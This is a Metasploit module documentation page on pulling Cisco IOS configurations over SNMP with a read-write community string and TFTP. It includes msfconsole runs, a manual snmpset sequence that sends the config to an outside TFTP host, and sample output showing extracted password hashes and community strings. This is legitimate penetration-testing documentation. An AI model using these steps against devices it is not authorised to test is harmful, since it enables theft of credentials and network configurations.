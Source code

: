 ## Vulnerable Application

  Cisco IOS devices can be configured to back-up their running and startup configurations via SNMP.
  This is a well [documented](https://www.cisco.com/c/en/us/support/docs/ip/simple-network-management-protocol-snmp/15217-copy-configs-snmp.html#copying_startup)
  feature of IOS and many other networking devices, and is part of an administrator functionality.
  A read-write community string is required, as well as a tftp server (metasploit includes one).
  After the config has been copied, the SNMP parameters are deleted.

## Verification Steps

  1. Enable SNMP with a read/write community string on IOS: `snmp-server community private rw`
  2. Start msfconsole
  3. Do: ```use auxiliary/scanner/snmp/cisco_config_tftp```
  4. Do: ```set COMMUNITY [read-write snmp]```
  5. Do: ```set rhosts [ip]```
  6. Do: ```run```

## Options

  **COMMUNITY**

  The SNMP community string to use which must be read-write.  Default is `public`.

## Scenarios

### Cisco UC520-8U-4FXO-K9 running IOS 12.4

```
msf > setg rhosts 2.2.2.2
rhosts => 2.2.2.2
msf > use auxiliary/scanner/snmp/cisco_config_tftp
msf auxiliary(scanner/snmp/cisco_config_tftp) > set community private
community => private
msf auxiliary(scanner/snmp/cisco_config_tftp) > run

[*] Starting TFTP server...
[*] Scanning for vulnerable targets...
[*] Trying to acquire configuration from 2.2.2.2...
[*] Scanned 1 of 1 hosts (100% complete)
[*] Providing some time for transfers to complete...
[*] Incoming file from 2.2.2.2 - 2.2.2.2.txt 22831 bytes
[+] 2.2.2.2:161 MD5 Encrypted Enable Password: $1$TF.y$3E7pZ2szVvQw5JG8SDjNa1
[+] 2.2.2.2:161 Username 'cisco' with MD5 Encrypted Password: $1$DaqN$iP32E5WcOOui/H66R63QB0
[+] 2.2.2.2:161 SNMP Community (RO): public
[+] 2.2.2.2:161 SNMP Community (RW): private
[*] Shutting down the TFTP service...
[*] Auxiliary module execution completed
```

### Manual Interaction
This process can also be executed manually utilizing Metasploit's TFTP server.
Cisco's [documentation](https://www.cisco.com/c/en/us/support/docs/ip/simple-network-management-protocol-snmp/15217-copy-configs-snmp.html#copying_startup)
was utilized to create this process.

1. Start the TFTP server

```
msf > use auxiliary/server/tftp 
msf auxiliary(server/tftp) > run
[*] Auxiliary module running as background job 0.
msf auxiliary(server/tftp) > 
[*] Starting TFTP server on 0.0.0.0:69...
[*] Files will be served from /tmp
[*] Uploaded files will be saved in /tmp
```

2. Execute the SNMP commands.  An integer is required to group the requests together, `666` is used in this example.

```
msf auxiliary(server/tftp) > snmpset -v 1 -c private 2.2.2.2 .1.3.6.1.4.1.9.9.96.1.1.1.1.2.666 i 1 
[*] exec: snmpset -v 1 -c private 2.2.2.2 .1.3.6.1.4.1.9.9.96.1.1.1.1.2.666 i 1 

iso.3.6.1.4.1.9.9.96.1.1.1.1.2.666 = INTEGER: 1
msf auxiliary(server/tftp) > snmpset -v 1 -c private 2.2.2.2 .1.3.6.1.4.1.9.9.96.1.1.1.1.3.666 i 4 
[*] exec: snmpset -v 1 -c private 2.2.2.2 .1.3.6.1.4.1.9.9.96.1.1.1.1.3.666 i 4 

iso.3.6.1.4.1.9.9.96.1.1.1.1.3.666 = INTEGER: 4
msf auxiliary(server/tftp) > snmpset -v 1 -c private 2.2.2.2 .1.3.6.1.4.1.9.9.96.1.1.1.1.4.666 i 1 
[*] exec: snmpset -v 1 -c private 2.2.2.2 .1.3.6.1.4.1.9.9.96.1.1.1.1.4.666 i 1 

iso.3.6.1.4.1.9.9.96.1.1.1.1.4.666 = INTEGER: 1
msf auxiliary(server/tftp) > snmpset -v 1 -c private 2.2.2.2 .1.3.6.1.4.1.9.9.96.1.1.1.1.5.666 a "1.1.1.1" 
[*] exec: snmpset -v 1 -c private 2.2.2.2 .1.3.6.1.4.1.9.9.96.1.1.1.1.5.666 a "1.1.1.1" 

iso.3.6.1.4.1.9.9.96.1.1.1.1.5.666 = IpAddress: 1.1.1.1
msf auxiliary(server/tftp) > snmpset -v 1 -c private 2.2.2.2 .1.3.6.1.4.1.9.9.96.1.1.1.1.6.666 s "backup_config" 
[*] exec: snmpset -v 1 -c private 2.2.2.2 .1.3.6.1.4.1.9.9.96.1.1.1.1.6.666 s "backup_config" 

iso.3.6.1.4.1.9.9.96.1.1.1.1.6.666 = STRING: "backup_config"
msf auxiliary(server/tftp) > snmpset -v 1 -c private 2.2.2.2 .1.3.6.1.4.1.9.9.96.1.1.1.1.14.666 i 1 
[*] exec: snmpset -v 1 -c private 2.2.2.2 .1.3.6.1.4.1.9.9.96.1.1.1.1.14.666 i 1 

iso.3.6.1.4.1.9.9.96.1.1.1.1.14.666 = INTEGER: 1
```

3. At this point the config is transferring, we need to wait a few seconds.  Lastly, we'll remove `666` from the system.

```
msf auxiliary(server/tftp) > snmpset -v 1 -c private 2.2.2.2 .1.3.6.1.4.1.9.9.96.1.1.1.1.14.666 i 6
[*] exec: snmpset -v 1 -c private 2.2.2.2 .1.3.6.1.4.1.9.9.96.1.1.1.1.14.666 i 6

iso.3.6.1.4.1.9.9.96.1.1.1.1.14.666 = INTEGER: 6
```

4. Confirm we have our config file

```
msf auxiliary(server/tftp) > ls -lah /tmp/backup_config
[*] exec: ls -lah /tmp/backup_config

-rw-r--r-- 1 root root 23K Oct 11 22:20 /tmp/backup_config
```

## Confirming using NMAP

Utilizing the [snmp-ios-config](https://nmap.org/nsedoc/scripts/snmp-ios-config.html) script

```
nmap -sU -p 161 --script snmp-ios-config --script-args creds.snmp=:private 192.168.2.239
Starting Nmap 7.70 ( https://nmap.org ) at 2018-10-11 22:30 EDT
Nmap scan report for 192.168.2.239
Host is up (0.0034s latency).

PORT    STATE SERVICE
161/udp open  snmp
| snmp-ios-config: 
| !
| ! Last configuration change at 18:01:46 PST Fri Jan 7 2000 by cisco
| ! NVRAM config last updated at 06:07:55 PST Tue Jan 4 2000 by cisco
| !
| version 12.4
| parser config cache interface
| no service pad
| service timestamps debug datetime msec
| service timestamps log datetime msec
| no service password-encryption
| service internal
| service compress-config
| service sequence-numbers
| !
| hostname UC520
...sip...
```

